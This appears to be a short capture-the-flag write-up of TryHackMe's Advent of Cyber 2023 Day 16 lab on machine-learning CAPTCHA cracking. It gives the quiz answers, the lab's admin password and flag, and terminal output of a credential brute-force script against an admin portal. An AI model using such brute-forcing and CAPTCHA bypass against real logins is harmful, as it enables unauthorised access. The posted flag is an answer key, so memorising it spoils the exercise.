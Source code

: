 



### Answer the questions below

**What key process of training a neural network is taken care of by using a CNN?**

Feature Extraction

**What is the name of the process used in the CNN to extract the features?**  

Convolution

**What is the name of the process used to reduce the features down?**  

Pooling

**What off-the-shelf CNN did we use to train a CAPTCHA-cracking OCR model?**  

Attention OCR 

**What is the password that McGreedy set on the HQ Admin portal?**  

ReallyNotGonnaGuessThis

**What is the value of the flag that you receive when you successfully authenticate to the HQ Admin portal?**

THM{Captcha.Can't.Hold.Me.Back}



```
cd ~/Desktop/bruteforcer && python3 bruteforce.py

[-] Invalid credential pair -- Username: admin Password: adminadmin
[-] Invalid credential pair -- Username: admin Password: admins
[-] Invalid credential pair -- Username: admin Password: goat
[-] Invalid credential pair -- Username: admin Password: sysadmin
[-] Invalid credential pair -- Username: admin Password: water
[-] Invalid credential pair -- Username: admin Password: dirt
[-] Invalid credential pair -- Username: admin Password: air
[-] Invalid credential pair -- Username: admin Password: earth
[+] Access Granted!! -- Username: admin Password: ReallyNotGonnaGuessThis
```

```
Access Granted.... Flag: THM{Captcha.Can't.Hold.Me.Back}
```





I completed Task 22  [Day 16] Machine learning Can't CAPTCHA this Machine!!, Don't miss out Tryhackme #AdventOfCyber @RealTryHackMe https://tryhackme.com/room/adventofcyber2023